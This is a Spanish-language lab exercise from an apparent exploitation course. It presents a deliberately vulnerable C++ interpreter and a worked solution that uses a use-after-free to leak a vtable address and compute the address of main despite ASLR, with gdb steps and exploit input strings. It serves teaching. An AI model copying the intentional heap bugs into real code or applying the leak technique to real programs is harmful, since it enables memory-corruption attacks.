






## Heap-03

**Objetivo**: Lograr, dado el programa cuyo código se lista a continuación, determinar la dirección de la función `main` para una ejecución particular. Es decir, proveer al programa una entrada tal que la salida del mismo permita determinar la dirección en la cuál estuvo la función `main` durante la ejecución del proceso.

**Hint**: el programa es esencialmente el mismo que el del ejercicio [heap-02](../heap-02), salvo por la incorporación de un nuevo comando `print_v`. Por puntos adicionales, analizar porqué la instrucción `print` con la cuál ya contabamos no permite resolver el ejercicio tan fácilmente como lo hace `print_v`.

```c++
// Entity-v2.h

#include <iostream>

class Entity {
protected:
  enum Type {
    INTEGER,
    INTEGER_VECTOR
  } type;

  Entity(Type type) {
    this->type = type;
  }

public:
  bool instance_of(Type type) const {
    return this->type == type;
  }

  virtual ~Entity() {}

  virtual void add(const Entity &entity) = 0;
  virtual void print() = 0;

};

class Integer : public Entity {
private:
  unsigned long value;

public:
  Integer(unsigned long value) : Entity(INTEGER) {
    this->value = value;
  }

  unsigned long get_value() const {
    return this->value;
  }

  void add(const Entity &other) {
    if (!other.instance_of(INTEGER)) {
      return;
    }

    const Integer *other_int = static_cast<const Integer*>(&other);
    this->value += other_int->get_value();
  }

  void print() {
    std::cout << this->value << std::endl;
  }

};

class IntVector : public Entity {
private:
  unsigned long length;
  unsigned long *data;

public:
  IntVector(unsigned long length) : Entity(INTEGER_VECTOR) {
    data = new unsigned long[length];
    this->length = length;
  }

  unsigned long get(unsigned long i) const {
    return i < length ? data[i] : 0;
  }

  void set(unsigned long i, unsigned long value) {
    if (i < length)
      data[i] = value;
  }

  unsigned long get_length() const {
    return length;
  }

  void add(const Entity &other) {
    if (!other.instance_of(INTEGER_VECTOR)) {
      return; // El otro elemento no es un vector de enteros.
    }

    const IntVector *other_int_vector = static_cast<const IntVector*>(&other);
    if (other_int_vector->get_length() != this->length) {
      return; // Solo se pueden sumar vectores de la misma longitud.
    }

    // Sumamos in place.
    for (unsigned int i = 0; i < length; i++) {
      data[i] += other_int_vector->get(i);
    }
  }

  void print() {
    for (unsigned int i = 0; i < length; i++) {
      char separator = i < length - 1 ? ',' : ';';
      std::cout << data[i] << separator;
    }
    std::cout << std::endl;
  }
    
  void print_element(unsigned int index) const {
    std::cout << get(index) << std::endl;
  }

  virtual ~IntVector() {
    delete data;
  }

};
```

```c++
// Interpreter-v2.h

#include <string>
#include <sstream>
#include <map>

#include "Entity-v2.h"

class Interpreter {
private:

  const std::string TOKEN_DECLARE_INT = "int";
  const std::string TOKEN_DECLARE_INT_VECTOR = "int_v";
  const std::string TOKEN_ADD = "add";
  const std::string TOKEN_VECTOR_SET = "set_v";
  const std::string TOKEN_PRINT = "print";
  const std::string TOKEN_VECTOR_PRINT = "print_v";
  const std::string TOKEN_DELETE = "delete";

  std::map<std::string, Entity*> entities;

  void create_int(std::istringstream &input_stream) {

    // Obtenemos el identificador (el nombre) de la variable entera.
    std::string int_id;
    std::getline(input_stream, int_id, ' ');

    // Obtenemos el valor de la variable entera.
    unsigned long value;
    input_stream >> value;

    // Creamos la variable y la guardamos en el mapa de entidades.
    entities[int_id] = new Integer(value);
  }

  void create_int_vector(std::istringstream &istream) {
    std::string id;
    std::string current_value;

    // Obtenemos el nombre del vector.
    std::getline(istream, id, ' ');

    // Obtenemos la longitud del vector.
    std::getline(istream, current_value, ' ');
    unsigned long length = std::stol(current_value);

    IntVector *vector = new IntVector(length);

    // Obtenemos los elementos del vector.
    for (unsigned long i = 0; std::getline(istream, current_value, ','); i++) {
      unsigned long current_element = std::stol(current_value);
      vector->set(i, current_element);
    }

    // Guardamos el vector.
    entities[id] = static_cast<Entity*>(vector);
  }

  void add(std::istringstream &input_stream) {
    std::string a_id;
    std::string b_id;

    std::getline(input_stream, a_id, ',');
    std::getline(input_stream, b_id, ';');

    Entity *a = entities.find(a_id)->second;
    Entity *b = entities.find(b_id)->second;

    if (a && b) {
      a->add(*b);
    }
  }

  void vector_set(std::istringstream &input_stream) {
    std::string vector_id;
    std::string current_value;

    std::getline(input_stream, vector_id, ' ');

    if (Entity *entity = entities.find(vector_id)->second) {
      IntVector *vector = static_cast<IntVector*>(entity);

      // Obtenemos el índice donde cambiar el valor.
      std::getline(input_stream, current_value, ' ');
      unsigned long index = stol(current_value);

      // Obtenemos el nuevo valor.
      std::getline(input_stream, current_value, ';');
      unsigned long value = stol(current_value);

      // Cambiamos el valor.
      vector->set(index, value);
    }
  }
    
  void print_vector_element(std::istringstream &input_stream) {
    std::string vector_id;
    std::getline(input_stream, vector_id, ' ');
    
    if (Entity *entity = entities.find(vector_id)->second) {
      const IntVector *vector = static_cast<IntVector*>(entity);
      
      // Obtenemos el índice del elemento a mostrar.
      std::string str_index;
      std::getline(input_stream, str_index, ';');
      unsigned long index = stol(str_index);
        
      vector->print_element(index);
    }
  }

  void print(std::istringstream &input_stream) {
    std::string id;
    std::getline(input_stream, id, ';');
    if (Entity *p = entities.find(id)->second) {
      p->print();
    }
  }

  void delete_entity(std::istringstream &input_stream) {
    std::string id;
    std::getline(input_stream, id, ';');
    if (Entity *p = entities.find(id)->second) {
      delete p;
    }
  }

public:

  void handle_command(const std::string &command) {
    std::istringstream input_stream(command);
    std::string token;

    std::getline(input_stream, token, ' ');

    if (TOKEN_DECLARE_INT == token) {
      create_int(input_stream);
    } else if (TOKEN_DECLARE_INT_VECTOR == token) {
      create_int_vector(input_stream);
    } else if (TOKEN_ADD == token) {
      add(input_stream);
    } else if (TOKEN_VECTOR_SET == token) {
      vector_set(input_stream);
    } else if (TOKEN_PRINT == token) {
      print(input_stream);
    } else if (TOKEN_VECTOR_PRINT == token) {
      print_vector_element(input_stream);
    } else if (TOKEN_DELETE == token) {
      delete_entity(input_stream);
    }
  }

};
```

```c++
// heap-03.cpp

#include "Interpreter-v2.h"

int main(int argc, char **argv) {
  Interpreter interpreter;

  /* Instanciamos un intérprete que procesará un programa cuyas
   * instrucciones deben ser provistas como argumentos.
   */
  for (unsigned int i = 1; i < argc; i++) {
    std::string current_command(argv[i]);
    interpreter.handle_command(current_command);
  }

  return 0;
}
```


## Solución

Comencemos realizando un experimento sencillo. Consideremos el siguiente programa en C++:

```c++
#include <iostream>
#include "stdint.h"

class A {
public:
  virtual void f() = 0;
};

class B : public A {
  void f() {
    std::cout << "hi" << std::endl;
  }
};

int main() {
  A *p = new B();

  void *address_vtable = (void*)(*((uint64_t*)p));

  uint64_t delta = (uint64_t)address_vtable - (uint64_t)&main;

  printf("&main\t\t: %p\n", &main);
  printf("&vtable\t\t: %p\n", address_vtable);
  printf("delta:\t\t: 0x%lx\n", delta);

  delete p;
  return 0;
}
```

Este programa muestra en pantalla la dirección de la función `main`, seguida de la dirección de la tabla virtual del objeto `p`, seguida finalmente por la distancia en bytes entre las dos direcciones. Compilamos el programa con g++ y lo ejecutamos varias veces. Deberíamos observar algo como



Observaremos, como ya era de esperarse, que las direcciones absolutas de ambos elementos cambian en cada ejecución por el efecto de ASLR. Notaremos, sin embargo, que la distancia entre los elementos permanece constante. Eso quiere decir que, dada la dirección de una vtable, podemos determinar cualquier dirección en la sección de texto del programa sumando alguna constante que habrá que determinar. Como ya sabemos, dicha constante será propia del binario en cuestión, dependiendo de la versión del programa, del build y versión del compilador, y de los flags de compilación.

Evidentemente, el objetivo ahora es explotar un leak que nos permita obtener efectivamente la dirección de alguna vtable. También será necesario determinar la distancia en bytes desde esa dirección hasta la dirección de `main` para poder efectuar el cálculo.

El leak que explotaremos está basado esencialmente en la misma vulnerabilidad que explotamos en la [solución del ejercicio heap-02](../heap-02/heap-02.md). Consideremos el siguiente comando:

```bash
./heap-02 "int_v a 2 0,0" "delete a" "int b 5" "print_v a 0"
```

Teniendo en cuenta la solución del ejercicio anterior, no es difícil ver que esta secuencia terminará mostrando en pantalla la dirección de la tabla virtual del objeto `b` (representada como un entero decimal). Habiendo determinado dicha dirección, lo único que hará falta es sumar la constante que pasaremos a determinar a continuación.


Compilamos el programa del ejercicio anterior con símbolos y lo cargamos en gdb. Ponemos un breakpoint en la función `main` y ejecutamos

```bash
run "int_v a 2 0,0" "delete a" "int b 5" "print_v a 0"
```

Avanzamos luego ingresando el comando "n" hasta que se haya ejecutado la tercera instrucción, la que crea al objeto `b` en el heap. Procedemos ejecutando entonces los comandos que se muestran en la siguiente captura:



Observaremos que el resultado obtenido es efectivamente la distancia buscada. Observaremos también que la dirección de la tabla virtual del objeto `b` es `0x55555575abd8`. Si continuamos ahora la ejecución con el comando continue, se ejecutará la última instrucción `print_v`, con lo cuál deberíamos observar algo como lo siguiente:



Observaremos que la representación hexadecimal del número `93824994356184` es efectivamente `0x55555575abd8`, el valor que habíamos observado antes. Podemos deducir entonces que la dirección de la función main es `0x55555575abd8 - 0x20515e = 0x555555555a7a`. Ya que por defecto en gdb la aleatorización del espacio de memoria está deshabilitada, podemos confirmar esto ejecutando el programa nuevamente y ejecutando "print &main":



Observaremos que la dirección de `main` es precisamente la que habíamos predicho. Por supuesto, podemos usar este mecanismo fuera de gdb. Si salimos del debugger con el comando quit y ejecutamos

```bash
./heap-03 "int_v a 2 0,0" "delete a" "int b 5" "print_v a 0"
```




Observaremos que, en esta instancia, el programa muestra el valor `94073464654808` en la terminal, o `0x558f2f718bd8` en hexadecimal. Podemos intuir entonces que la función main, en esta ejecución particular, se encontraba en `0x558f2f718bd8 - 0x20515e = 0x558f2f513a7a`.


Con esto ya hemos resuelto el enunciado de este ejercicio. Pasaremos a analizar, sin embargo, un detalle interesante. ¿Qué habría pasado si en vez de usar `print_v` hubiésemos usado `print`? Después de todo, ambas instrucciones sirven para mostrar en pantalla el contenido del vector referenciado. 

El problema con `print`, sin embargo, es el que pasaremos a comentar ahora. Notemos la diferencia entre las implementaciones de las dos instrucciones:

```c++
void print(std::istringstream &input_stream) {
  std::string id;
  std::getline(input_stream, id, ';');
  if (Entity *p = entities.find(id)->second) {
    p->print();
  }
}
```

```c++
void print_vector_element(std::istringstream &input_stream) {
  std::string vector_id;
  std::getline(input_stream, vector_id, ' ');
    
  if (Entity *entity = entities.find(vector_id)->second) {
    const IntVector *vector = static_cast<IntVector*>(entity);
      
    // Obtenemos el índice del elemento a mostrar.
    std::string str_index;
    std::getline(input_stream, str_index, ';');
    unsigned long index = stol(str_index);
        
    vector->print_element(index);
  }
}
```

Notaremos que la primera actúa sobre un puntero de tipo `Entity*`, mientras que la segunda realiza un cast estático a un puntero de tipo `IntVector*`. Para nuestros fines, la segunda funciona, pero la primera no. La segunda funciona porque, al contar con un puntero al tipo concreto, no es necesario pasar por la tabla virtual para determinar que versión concreta del método ejecutar. El problema con la primera implementación, la que utiliza el puntero a `Entity`, sin embargo, es que la llamada a `print` debe pasar primero por la tabla virtual del objeto en cuestión para determinar qué implementación del método utilizar. Esto es un problema porque resulta que la llamada a `delete` (el `delete` de C++), en adición a liberar la memoria asociada al objeto, también pone en 0 el valor del puntero a la tabla virtual del objeto en cuestión. Recordaremos que, para el momento en el cuál la instrucción "print a" esté en ejecución, el objeto `a` ya habrá sido liberado. Esto implica que la secuencia

```bash
./heap-03 "int_v a 2 0,0" "delete a" "int b 5" "print a"
```

termina con un error de segmentación debido al intento de acceder, en la última instrucción, a una supuesta tabla virtual en la dirección nula:




Queda como ejercicio analizar el flujo de ejecución en gdb para observar el fenómeno en forma más concreta. En todo caso esto implica que, para llevar a cabo un UAF en C++, habrá que tener en cuenta que liberar un objeto pone en cero su puntero a tabla virtual. Las posibles soluciones al problema dependerán del contexto de explotación. Una posibilidad es cambiar el orden de las operaciones; este ejercicio quizás puede ser resuelto usando `print` si las operaciones se secuencian de diferente forma. En otros casos podría ser necesario contar con otros mecanismos de escritura que permitan restaurar los valores de los punteros antes de utilizar el objeto.


## Conclusión

Con este ejercicio pudimos poner en práctica la utilización de un UAF para filtrar información del espacio de memoria de un proceso en ejecución. En el ejercicio final estaremos poniendo todo junto para lograr un ataque completo a través del heap. Antes, sin embargo, estaremos estudiando el estado del arte en la mitigación de ataques de corrupción de memoria.